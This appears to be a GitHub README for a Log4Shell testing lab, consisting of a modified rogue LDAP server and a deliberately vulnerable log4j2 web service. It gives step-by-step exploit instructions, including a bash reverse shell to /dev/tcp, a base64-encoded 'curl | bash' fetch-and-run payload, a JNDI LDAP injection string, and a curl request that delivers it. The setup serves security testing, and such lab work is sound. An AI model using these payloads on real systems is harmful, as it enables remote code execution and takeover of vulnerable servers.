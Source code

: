 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build with Maven

In order to build the ```RogueLDAP``` server run the following commands 

```
cd RogueLDAP
mvn clean package
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server.  

### Build with Docker

From cli run the following command to build the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
```

### Build with Maven

```
mvn clean package && java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar 
```

## Setting up the Environment and run the exploit

In order to setup the environment and run the exploit the following steps should be followed 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine

```
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar -i <YOUR-IP-ADDRESS>
```

2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine

```
docker run -p 8080:8080 logging-log4j2-vuln
```

3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

4. Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

5. Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

6. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

7. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

7. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

8. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
